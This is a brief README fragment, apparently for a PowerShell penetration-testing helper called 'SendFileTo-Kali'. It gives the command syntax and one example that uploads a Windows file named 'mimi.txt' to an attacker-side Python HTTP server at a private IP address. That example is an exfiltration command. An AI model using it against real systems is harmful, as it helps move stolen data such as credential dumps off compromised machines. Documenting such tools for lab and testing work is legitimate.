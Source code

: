 # USAGE
```
SendFileTo-Kali -FilePath <abosolute_path> -UploadUrl <python3 http server with upload url>
```
### Example
```
SendFileTo-Kali -FilePath "C:\Program Files\temp\mimi.txt" -UploadUrl "http://172.16.99.11:8000/"
```
